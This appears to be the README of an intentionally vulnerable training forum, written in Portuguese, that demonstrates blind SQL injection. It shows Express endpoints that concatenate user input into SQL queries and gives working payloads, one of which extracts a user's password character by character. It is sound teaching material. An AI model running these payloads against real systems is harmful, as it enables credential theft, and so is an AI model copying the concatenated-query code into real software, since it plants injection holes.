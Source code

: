 # Fórum com Injeção SQL Cega

## Configuração

1. Instale as dependências:

```
npm install
```

2. Inicialize o banco de dados com dados de exemplo:

```
node setup-db.js
```

3. Inicie o servidor:

```
npm start
```

4. Acesse o fórum em: http://localhost:3000

## Vulnerabilidades

### 1. Injeção SQL na Página de Login

A página de login também é vulnerável à injeção SQL. As entradas do usuário para nome de usuário e senha são concatenadas diretamente na consulta SQL sem sanitização:

```javascript
app.post("/login", (req, res) => {
  const { username, password } = req.body;

  // VULNERÁVEL: Injeção SQL cega na consulta de login
  // concatenando diretamente a entrada do usuário na consulta SQL
  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;

  db.get(query, (err, user) => {
    // ...manipulação da resposta...
  });
});
```

Mensagem de teste' AND (SELECT role FROM users WHERE username='PaulAtreides')='admin' AND '1'='1

### 2. Injeção SQL Cega na Postagem de Mensagens

O endpoint `/post` para postar novas mensagens também é vulnerável à injeção SQL cega. Isso pode ser explorado para extrair dados do banco de dados:

```javascript
app.post("/post", (req, res) => {
  const { username, content, planet } = req.body;

  // VULNERÁVEL: Injeção SQL cega na postagem de mensagem
  const query = `INSERT INTO messages (username, content, planet) 
                  VALUES ('${username}', '${content}', '${
    planet || "Desconhecido"
  }')`;

  db.run(query, (err) => {
    // ...manipulação da resposta...
  });
});
```

#### Exemplo de Ataque

Ao postar uma mensagem, você pode usar o seguinte payload no campo de conteúdo para extrair informações de senha caractere por caractere:

```
Teste', (SELECT CASE WHEN (SELECT substr(password,1,1) FROM users WHERE username='PaulAtreides')='m' THEN 'success' ELSE 'fail' END)) --
```

Esta injeção:

1. Fecha a string atual com uma aspa e adiciona uma vírgula
2. Usa uma instrução CASE para verificar se o primeiro caractere da senha de Paul é 'm'
3. Comenta o resto da consulta

Se o primeiro caractere for 'm', a consulta é executada com sucesso. Se não, ela falha devido a erros de sintaxe SQL.

Para extrair a senha completa, modifique a posição (altere `1,1` para `2,1` para o segundo caractere) e tente diferentes caracteres.
